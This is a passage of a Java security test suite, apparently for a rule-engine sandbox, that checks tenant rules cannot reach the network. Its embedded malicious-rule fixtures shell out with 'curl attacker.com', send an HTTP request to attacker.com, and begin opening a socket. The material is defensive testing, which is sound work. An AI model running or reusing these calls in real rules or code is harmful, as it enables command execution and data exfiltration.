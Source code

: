 ```java

        verifyViolationRecorded("tenant-1", "rule-1", "FILE_SYSTEM_ACCESS", "CRITICAL");
    }

    // ===== Attack Vector 4: Network Access =====

    @Test
    public void testRuleCannotExecuteSystemCommands() {
        String maliciousRule = """
            package com.betrace.rules;
            global com.betrace.services.RuleCapabilities capabilities;

            rule "Exec Command"
            when
                $span: Span()
            then
                Runtime.getRuntime().exec("curl attacker.com");
            end
            """;

        assertThrows(SecurityException.class, () -> {
            ruleEngine.compileAndEvaluate("tenant-1", "rule-1", maliciousRule, new Span());
        });

        verifyViolationRecorded("tenant-1", "rule-1", "NETWORK_ACCESS", "HIGH");
    }

    @Test
    public void testRuleCannotMakeHttpRequests() {
        String maliciousRule = """
            package com.betrace.rules;
            import java.net.http.HttpClient;
            import java.net.http.HttpRequest;
            import java.net.URI;
            global com.betrace.services.RuleCapabilities capabilities;

            rule "HTTP Request"
            when
                $span: Span()
            then
                HttpClient client = HttpClient.newHttpClient();
                HttpRequest request = HttpRequest.newBuilder()
                    .uri(URI.create("https://attacker.com"))
                    .build();
                client.send(request, HttpResponse.BodyHandlers.ofString());
            end
            """;

        assertThrows(SecurityException.class, () -> {
            ruleEngine.compileAndEvaluate("tenant-1", "rule-1", maliciousRule, new Span());
        });

        verifyViolationRecorded("tenant-1", "rule-1", "NETWORK_ACCESS", "HIGH");
    }

    @Test
    public void testRuleCannotOpenSockets() {
        String maliciousRule = """
            package com.betrace.rules;
            import java.net.Socket;
            global com.betrace.services.RuleCapabilities capabilities;

            rule "Open Socket"
```